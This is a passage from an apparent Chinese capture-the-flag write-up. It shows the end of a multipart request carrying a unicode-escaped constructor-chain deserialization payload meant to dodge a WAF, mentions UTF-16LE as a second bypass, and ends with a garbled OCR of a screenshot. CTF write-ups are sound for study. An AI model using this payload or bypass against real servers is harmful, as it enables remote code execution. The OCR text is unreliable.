2\u0022\u002c\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0037\u0033\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0033\u0032\u0022\u002c\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u0022\u003a\u0020\u007b\u000a\u0020\u0020\u0020\u0020\u0020\u0020\u0022\u0067\u0065\u0074\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u0022\u000a\u0020\u0020\u0020\u0020\u007d\u000a\u0020\u0020\u007d\u000a\u007d
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

同时当然也可以UTF-16LE编码绕过,此处不再赘述.

发送后访问网站根目录即可获取flag

<!-- 这是一张图片，ocr 内容为：HLTPSFNCL.CLFPLUSCN45163 山 不安全 山 公交管业 UNICHT INIOKAIILLLM3ADLAC-0025-4C94-BAD6-2CAAZ2DFD838) 不节流: 门禁用贮存 CSS IS XHR 字体 图像 媒体 WS 其他 ANIC 213字0 / PLAIN GET 9本6 24888848韩新新疆 OMCONTENTLOADED:24652465秒 信息日吉谢乐 [THATI 1 1 1 1 1543 25 [HTTP/1.1 CED MOT FCUND ORA] -->


